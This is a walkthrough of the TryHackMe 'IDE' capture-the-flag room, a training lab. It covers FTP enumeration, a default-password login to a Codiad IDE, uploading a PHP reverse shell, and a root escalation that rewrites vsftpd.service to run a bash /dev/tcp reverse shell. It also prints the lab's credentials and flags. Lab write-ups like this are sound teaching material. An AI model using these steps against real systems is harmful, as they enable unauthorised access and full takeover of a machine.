


# IDE


---

## Summary

[IDE](https://tryhackme.com/room/ide "IDE Room On TryHackMe") is a beginner friendly, "easy box to polish your enumeration skills" hosted by [TryHackMe](https://tryhackme.com/ "TryHackMe Official Website") and created by [BlueStorm](https://tryhackme.com/p/bluestorm "BlueStorm TryHackMe Profile") and [403 Exploit](https://tryhackme.com/p/403Exploit "403 Exploit TryHackMe Profile").

This CTF requires basic knowledge of:

* Linux commands such as ```ping```, ```which```, ```ls```, ```cd```, ```cat```, ```sudo```, ```find```, ```systemctl``` and ```restart```.

* Port scanning with tools like ```NMAP```.

* Retrieving files from an ```FTP``` server.

* Uploading a reverse shell to a server.

* Using ```Netcat``` to listen for an incoming connection.

* (**OPTIONAL**) Upgrading a dumb terminal using ```Python```.

* Connecting to a remote server via ```SSH```.

* Editing files with tools like ```Nano```.

* Stopping and restarting services in Linux.

---

## Contents

* [Getting Started](#getting-started "Jump To Getting Started")

* [Port Scanning](#port-scanning "Jump To Port Scanning")

* [Getting Username From FTP Server](#ftp-server "Jump To FTP Server")

* [Finding Password For Website](#website-password "Jump To Website Password")

* [Uploading And Calling Reverse Shell](#reverse-shell "Jump To Reverse Shell")

* [Upgrading The Terminal](#terminal-upgrade "Jump To Terminal Upgrade")

* [Horizontal Privilege Escalation - First Flag](#horizontal-escalation "Jump To Horizontal Escalation")

* [Vertical Privilege Escalation - Root Flag](#vertical-escalation "Jump To Vertical Escalation")

---

## Getting Started

As always we start off by checking that the target machine is up and running by pinging the target IP Address.

```
$ ping <IP_Address>

PING <IP_Address> (<IP_Address>) 56(84) bytes of data.
64 bytes from <IP_Address>: icmp_seq=1 ttl=61 time=224 ms
64 bytes from <IP_Address>: icmp_seq=2 ttl=61 time=180 ms
64 bytes from <IP_Address>: icmp_seq=3 ttl=61 time=222 ms
64 bytes from <IP_Address>: icmp_seq=4 ttl=61 time=183 ms

--- <IP_Address> ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 180.258/202.493/224.379/20.761 ms
```

[Back To Top](#ide "Jump To Top")

---

## Port Scanning

Once we've verified the machine is active we can move on to a port scan using ```nmap``` with the ```-p-``` flag to make sure we scan **ALL** ports.

```
$ nmap -p- <IP_Address>

Nmap scan report for <IP_Address>
Host is up (0.16s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
62337/tcp open  unknown
```

After our initial port scan we can see that there are 4 open ports.

* ```PORT 21``` - FTP (File Transfer Protocol)
* ```PORT 22``` - SSH (Secure Shell)
* ```PORT 80``` - HTTP (HyperText Transfer Protocol)
* ```PORT 62337``` - UNKNOWN

To get more information on these services we can run another port scan but this time we'll use the ```-A``` and ```-p``` flag in order to aggressively scan only these specific ports.

```
$ nmap -A -p 21,22,80,62337 <IP_Address>

Nmap scan report for <IP_Address>
Host is up (0.16s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Codiad 2.8.4
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see from the above port scan that the unknown service on ```PORT 62337``` that we found earlier is another website and the ```FTP``` service allows anonymous login. So our next logical step is to check the ```FTP``` server.

[Back To Top](#ide "Jump To Top")

---

## FTP Server

To login to the ```FTP``` server, we'll use the ```ftp``` command followed by the target IP Address. When prompted for a username we'll use ```anonymous``` and for password we can type anything.

```
$ ftp <IP_Address>

Connected to <IP_Address>.
220 (vsFTPd 3.0.3)
Name: anonymous
331 Please specify the password.
Password: anon
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Now that we've connected to the ```FTP``` server we can list all files in the current directory with the ```ls -la``` command.

```
ftp> ls -la
229 Entering Extended Passive Mode (|||21303|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        114          4096 Jun 18  2021 .
drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
drwxr-xr-x    2 0        0            4096 Jun 18  2021 ...
226 Directory send OK.
```

Once we list the contents of the current directory we'll see a very sneaky directory named ```...```, in the Linux file system this means nothing. The ```.``` directory represents our current directory, while the ```..``` represents our previous directory. And all files or directories prefaced with a ```.``` are hidden by default. So the ```...``` directory is hidden from us when we use the ```-ls``` command. Which is why we should always use ```ls -la``` to list **ALL** files. Even then the unconventional directory name might cause us to miss it or mistake it for the current or previous directories.

Let's change into the ```...``` directory and see what's in there.

```
ftp> cd ...
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||23248|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             151 Jun 18  2021 -
drwxr-xr-x    2 0        0            4096 Jun 18  2021 .
drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
226 Directory send OK.
```

Here we find another sneaky file with an unconventional naming scheme, let's download this file named ```-``` with the ```get``` command followed by the file name.

```
ftp> get -
local: - remote: -
229 Entering Extended Passive Mode (|||5886|)
150 Opening BINARY mode data connection for - (151 bytes).
100% |***********************************|   151      193.77 KiB/s    00:00 ETA
226 Transfer complete.
151 bytes received in 00:00 (0.61 KiB/s)
```

Once we've downloaded the file we'll find it on our local machine. If we read the file we'll see it's a reminder to someone named "john" to change his password.

```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

Now we have a username (john) and a potential vulnerabilty (weak/default password).

[Back To Top](#ide "Jump To Top")

---

## Website Password

After getting the username from the file we found in the FTP server we need somewhere to use it. Visiting the website at ```PORT 80``` leads nowhere, but the website at ```PORT 62337``` does have a login form.

Before bruteforcing the login with Hydra or BurpSuite we can try guessing some passwords since we know ```john``` has a default password.

Not shocking, the password is ```password``` and logging in takes us to an online IDE (Integrated Development Environment) with a bunch of Python programs saved in it.

```john:password```

[Back To Top](#ide "Jump To Top")

---

## Reverse Shell

Once we've logged in to the IDE we'll see a bunch of Python files and if we look down towards the bottom of the screen we'll see that these files are stored at ```
/var/www/html/codiad_projects/```.


If we look for the ```/codiad_projects/``` directory on the website at ```PORT 62337``` we won't find it. But if we check the other website at ```PORT 80``` we'll find all those python files in an unprotected directory.



Since the directory at ```http://<IP_Address:80/codiad_projects/``` is unprotected AND we have the ability to write and save files in the IDE we can upload a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php "PenTest Monkey Reverse Shell On GitHub") and retrieve it through this directory.

First we'll start a ```Netcat``` listener on port ```1234``` with the following command.

```nc -lnvp 1234```

Next we'll create a new file in the online IDE, the contents of which will be our [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php "PenTest Monkey Reverse Shell On GitHub").

Our reverse shell can now be found in the unprotected directory we found earlier, all we need to do is click on it.



If successful we should see output in our ```Netcat``` listener similar to the following...

```
Listening on 0.0.0.0 1234

Connection received on <IP_Address> 37904
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

[Back To Top](#ide "Jump To Top")

---

## Terminal Upgrade

Finally, we've made it into the remote machine. But we have a dumb terminal so before we start looking for the first flag we should upgrade our terminal.

First we'll check if Python is on the remote machine by using the Linux ```which``` command followed by all Python versions.

```
$ which python python2 python3

/usr/bin/python3
```

Now that we've confirmed which version of Python is on the system we'll type in the following command.

```python3 -c 'import pty; pty.spawn("/bin/bash")'```

Now we can comfortably start horizontal privilege escalation.

[Back To Top](#ide "Jump To Top")

---

## Horizontal Escalation

We can start by checking who we are (```whoami```) and where we are (```pwd```).

```
www-data@ide:/$ whoami
www-data

www-data@ide:/$ pwd
/
```

Next we can check what other users exist in the ```/home``` directory.

```
www-data@ide:/$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Jun 17  2021 .
drwxr-xr-x 24 root root 4096 Jul  9  2021 ..
drwxr-xr-x  6 drac drac 4096 Aug  4  2021 drac
```

Now that we've found the other user (```drac```) we should list everything in his current directory with ```ls -la```.

```
ls -la /home/drac

total 52
drwxr-xr-x 6 drac drac 4096 Aug  4  2021 .
drwxr-xr-x 3 root root 4096 Jun 17  2021 ..
-rw------- 1 drac drac   49 Jun 18  2021 .Xauthority
-rw-r--r-- 1 drac drac   36 Jul 11  2021 .bash_history
-rw-r--r-- 1 drac drac  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 drac drac 3787 Jul 11  2021 .bashrc
drwx------ 4 drac drac 4096 Jun 18  2021 .cache
drwxr-x--- 3 drac drac 4096 Jun 18  2021 .config
drwx------ 4 drac drac 4096 Jun 18  2021 .gnupg
drwx------ 3 drac drac 4096 Jun 18  2021 .local
-rw-r--r-- 1 drac drac  807 Apr  4  2018 .profile
-rw-r--r-- 1 drac drac    0 Jun 17  2021 .sudo_as_admin_successful
-rw------- 1 drac drac  557 Jun 18  2021 .xsession-errors
-r-------- 1 drac drac   33 Jun 18  2021 user.txt
```

We found the ```user.txt``` file which contains our first flag but we don't have readable permissions. We can however read some of his other files.

Let's find out what commands ```drac``` runs by reading his Bash history within the ```.bash_history``` file.

```
www-data@ide:/$ cat /home/drac/.bash_history

mysql -u drac -p 'Th3dRaCULa1sR3aL'
```

It seems ```drac``` has logged into his ```mysql``` database with the same username he uses here and the password ```Th3dRaCULa1sR3aL```. Maybe he also reuses his password.

Let's check by trying to SSH into ```drac@<IP_Address>``` with the password he uses for his ```mysql``` database.

```
$ ssh drac@<IP_Address>

drac@<IP_Address>'s password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Feb 21 23:12:46 UTC 2023

  System load:  0.0               Processes:           113
  Usage of /:   50.0% of 8.79GB   Users logged in:     0
  Memory usage: 43%               IP address for eth0: 10.10.218.57
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

69 packages can be updated.
1 update is a security update.

drac@ide:~$
```

Okay, we're in and we've been dumped into dracs home directory so all we need to do to get the first flag is ```cat``` the ```user.txt``` file.

```
drac@ide:~$ cat user.txt
02930d21a8eb009f6d26361b2d24a466
```

[Back To Top](#ide "Jump To Top")

---

## Vertical Escalation

Now it's time for vertical escalation, one of the first commands you should run whenever you log into a remote system is ```sudo -l```. This will show us all programs we can run as ```sudo```.

```
drac@ide:~$ sudo -l

[sudo] password for drac: Th3dRaCULa1sR3aL
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```

The results from the ```sudo -l``` command show us that we have the ability to ```restart``` the ```vsftpd``` ```service```.

We also have the ability to edit the ```vsftpd.service``` file so we'll edit the file with ```nano``` to start a reverse shell on startup.

```nano /lib/systemd/system/vsftpd.service```

Originally the ```vsftpd.service``` file should look like this...

```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

The line we're changing in the file is this one...

```ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf```

We'll change the above line to the one below, where you'll put your own IP and Port.

```ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<IP_Address>/<Port> 0>&1'```

Once you've finished editing the ```vsftpd.service``` file it should look like this...

```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<IP_Address>/<Port> 0>&1'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

Next we'll start our ```Netcat``` listener.

```
$ nc -lnvp <PORT>

Listening on 0.0.0.0 <PORT>
```

Before we ```restart``` the ```vsftpd``` ```service``` as ```sudo``` we need to use the command ```systemctl daemon-reload```, otherwise we would see the following output.

```
drac@ide:~$ sudo /usr/sbin/service vsftpd restart

Warning: The unit file, source configuration file or drop-ins of vsftpd.service changed on disk. Run 'systemctl daemon-reload' to reload units.
```

Let's run the ```systemctl daemon-reload``` command and provide ```Th3dRaCULa1sR3aL``` as the password for ```drac```.

```
drac@ide:~$ systemctl daemon-reload

==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password: Th3dRaCULa1sR3aL
==== AUTHENTICATION COMPLETE ===
```

Finally we can ```restart``` the ```vsftpd``` ```service``` as ```sudo```.

```
drac@ide:~$ sudo /usr/sbin/service vsftpd restart

[sudo] password for drac: Th3dRaCULa1sR3aL
```

If we did the above steps correctly we should see that we have root access on our ```Netcat``` listener.

```
Listening on 0.0.0.0 1234

root@ide:/#
```

Now that we're root let's find the root flag by listing all contents in the ```/root``` directory.

```
root@ide:/# ls -la /root

ls -la /root
total 40
drwx------  6 root root 4096 Jun 18  2021 .
drwxr-xr-x 24 root root 4096 Jul  9  2021 ..
lrwxrwxrwx  1 root root    9 Jun 18  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Jun 18  2021 .cache
drwx------  3 root root 4096 Jun 18  2021 .gnupg
drwxr-xr-x  3 root root 4096 Jun 18  2021 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Jun 18  2021 root.txt
-rw-r--r--  1 root root   66 Jun 18  2021 .selected_editor
drwx------  2 root root 4096 Jun 17  2021 .ssh
```

There's our flag, in a file named ```root.txt```. If we ```cat``` it we'll see the following.

```ce258cb16f47f1c66f0b0b77f4e0fb8d```

[Back To Top](#ide "Jump To Top")
